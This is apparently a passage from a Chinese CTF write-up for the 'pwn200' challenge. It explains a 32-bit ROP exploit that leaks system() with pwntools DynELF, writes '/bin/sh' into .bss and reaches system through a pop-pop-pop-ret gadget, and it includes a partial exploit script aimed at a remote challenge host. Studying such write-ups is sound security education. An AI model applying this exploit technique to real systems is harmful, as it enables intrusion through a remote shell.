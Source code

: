 得到 system_addr 后，需要在 .bss 段上写'/bin/sh'：
```python
if __name__ = '__main__':    
...    
	bss_addr = elf.bss()
```
然后找pop * ; pop * ; pop * ; ret恢复栈，一步到system('/bin/sh')

5、本题目分为两部分：https://blog.csdn.net/weixin_44113469/article/details/873673421) 借助DynELF泄露system地址，这里利用write函数泄露system地址，构造代码
	2) 利用read函数写入"/bin/sh"，调用system（），将"/bin/sh"写入到bss段，使用readelf -a pwn200 | grep bss查看bss段的地址
	如何利用read函数写入"/bin/sh"，参考：https://blog.csdn.net/weixin_44113469/article/details/87005678

6、借助DynELF实现利用的要点：

 1）调用write函数来泄露地址信息，比较方便；

 2）32位linux下可以通过布置栈空间来构造函数参数，不用找gadget，比较方便；

 3）在泄露完函数地址后，需要重新调用一下_start函数，用以恢复栈；

 4）在实际调用system前，需要通过三次pop操作来将栈指针指向systemAddress，可以使用ropper或ROPgadget来完成。

第二个payload的构成：https://blog.csdn.net/weixin_44113469/article/details/87005678

执行 python pwn200.py REMOTE

payload:
```python
##!/usr/bin/python
#coding=utf-8
from pwn import *
pwn_file='./pwn200'
binary = ELF(pwn_file)

# libc = ELF('')

#context.terminal = ['tmux', 'splitw', '-h'] 
context(arch='i386',os='linux')
if args['DEBUG']:
    context.log_level = True 
elif args['REMOTE']: 
    io = remote('220.249.52.133', '56825')
else: 
    io = process(pwn_file)

# gdb.attach(io)

writePLT = binary.plt['write'] 
readPLT = binary.plt['read'] 
bssAddress = binary.bss(0) 
#vulnAddress=binary.symbols['sub_8048484']
vulnAddress = 0x8048484
#ROPgadget --binary pwn200 --only 'pop|ret'，三次pop操作将指针指向systemAddress
ppp_ret=0x804856c  

def leak(address): 
    #112=0x6C+4
    #payload = 'A' * 112 + p32(writePLT) + p32(vulnAddress) + p32(1) + p32(address) + p32(4) 
    #payload=padding+write PLT表地址+返回地址（需要二次发送）+参数1（0表示标准输入流stdin，1表示标准输出流stdout）+参数2（从内存中dump出的4字节system地址）+参数3（写入数据大小）
    payload = flat(['A' * 112,writePLT,vulnAddress,1,address,4]) 
    io.send(payload) 
    data = io.recv(4)
    log.debug("%#x => %s" % (address, (data or '').encode('hex'))) 
    return data

io.recvline()
```